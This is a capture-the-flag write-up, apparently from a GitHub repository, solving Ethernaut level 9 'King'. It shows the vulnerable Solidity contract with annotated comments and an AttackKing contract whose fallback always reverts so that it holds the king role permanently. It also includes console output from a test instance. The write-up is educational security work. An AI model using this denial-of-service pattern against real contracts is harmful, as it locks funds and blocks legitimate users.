 ## Ethernaut-solution

### 9. King 

ref: https://www.kingoftheether.com/thrones/kingoftheether/index.html

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  //we have three instance 
  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable { //external payable is to send ether, 
    //Its gonna hit receive cuz that's what's going to catch it there is no fallback here, so receive gonna catch that.

    require(msg.value >= prize || msg.sender == owner);
    //we're going to call this fallback function and we're going to make sure that the value we put into this contract 
    //is greater than its current prize because we have to satisfy this requirement condition and provided we do 

    king.transfer(msg.value); //kingになりすましてtransfer //we wanna them to stop here right now
    //will create a malicious contract 
    //it doesn't have a fallback function that can take the money of there's a problem in that fallback function in this contract 
    //this transaction that's calling this function here is going to fail 
    //this is going to break and that's exactly what we're trying to do here 
    //because we are trying to prevent anybody else from ever becoming king by paying money into this fallback funtion here
    //so we want to stop here, A maricious contract that's going to have a malicious fallback function
    //and when this transaction function gets called to send our malicious contract money, we're gonna blow up

    //we'll be able to you know pass the line here 
    //send money to the current king and then we wil become king and msg.sender is going to be the address of the attack king smart contrat 


    king = msg.sender;
    //As a result, the calling is not going to be able to this line here 
    //and as a result, we will always be king forever and ever 
    //that's what ended that ponzi game called king of ether which I showed you 


    prize = msg.value;
  }

  //the way that we're going to do this is we're going to create 

  function _king() public view returns (address payable) {
    return king;
  }
}
```
Ref: [Defi Developer Academy](https://www.youtube.com/watch?v=tEL-JVjxsJI)

```solidity
/AttackKing.sol 
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
// we could not fallback function and then transaction that executed this function would fail 
//and then this ponzi game would end forever because we would always be king and nobody would be able to pass king statement to get to this line to become the king 
contract AttackKing {
    constructor(address _king) public payable {//payable is exceed the prize limit //king had the prize limit of five and we wanted send six to 
  address(_king).call { value : msg.value }(""); //ここのやり方がnew way //we're putting these double quotes in here cuz inside of this call method when you're sending ether to someone,
  //you need to include these parenthese and these double quotes which basically states that i'm not calling a specific function 
  //it's gonna be the first four bytes of a function that's hashed so we're not calling anything specific we're just sending in general with you know remaining gas 
  //that's usually going to fall under a fallback function for the contract we're sending it to 
  //or it's gonna hit a receive function which is going to receive the ether fallback so these two locations this is going to hit when we send it 
   }
//we're going to specify the fallback function 
//king is gona be our address,the address of this attack king smart contract 
   //18:13
   fallback() external payable {//functionじゃなくてfallback 
       revert('You lose!');
   }
}
```

```
>await contract.prize()
o {negative: 0, words: Array(3), length: 2, red: null}length: 2negative: 0red: nullwords: Array(3)0: 130088961: 14901161length: 3[[Prototype]]: Array(0)[[Prototype]]: Object
```
```
>contract.address
'0xb88c9b391cC0564009b89AeDb53d83597212e07A'
```

//check the amount of wei of Ether (13008896)
```
>await contract.prize()
o {negative: 0, words: Array(3), length: 2, red: null}
length: 2
negative: 0
red: null
words: (3) [13008896, 14901161, empty]
[[Prototype]]: Object
```

//check the currently contract address of king 
```
>await contract._king()
'0x43BA674B4fbb8B157b7441C2187bCdD2cdF84FD5'
```

//and then deploy the contract address '0xb88c9b391cC0564009b89AeDb53d83597212e07A send over 13_008_896 wei

//check the change address of king!
```
>await contract._king()
'0x56Be55B79aA365Afc81B8Ef43099e31Ec3a27094'
```

Most of Ethernauts levels try to expose (in an oversimplified form of course) something that actually happened — a real hack or a real bug.

In this case, see: King of the Ether and King of the Ether Postmortem.

## references 

- [Defi Developer Academy](https://www.youtube.com/watch?v=tEL-JVjxsJI)

- https://www.kingoftheether.com/thrones/kingoftheether/index.html

- http://www.kingoftheether.com/postmortem.html

















